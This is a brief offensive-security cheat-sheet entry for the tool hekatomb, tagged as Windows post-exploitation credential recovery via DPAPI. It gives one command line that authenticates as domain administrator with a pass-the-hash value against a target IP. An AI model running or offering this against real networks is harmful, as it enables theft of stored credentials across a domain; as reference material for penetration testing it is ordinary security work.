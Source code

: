 # hekatomb

% hekatomb, dpapi

## hekatomb -
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

```
hekatomb -hashes :<hash> <domain>/administrator@<ip> -debug 
```